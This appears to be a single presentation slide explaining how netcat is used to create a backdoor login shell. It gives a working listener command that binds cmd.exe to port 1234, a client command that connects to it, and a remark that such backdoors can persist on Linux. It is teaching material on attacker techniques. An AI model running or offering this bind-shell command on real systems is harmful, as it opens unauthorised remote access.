

# Create a backdoor
Netcat’s most popular use by malicious users is to create a
   backdoor login shell.
This simple script below will create a backdoor.
At listener: nc –l –p 1234 –e cmd.exe
At client: nc 127.0.0.1 1234
  –e is being used to execute the action after the connection is being
  established.
In Linux, these backdoors can be made persistent which means
   even after the current user logged out, the backdoor will keep
   running in background.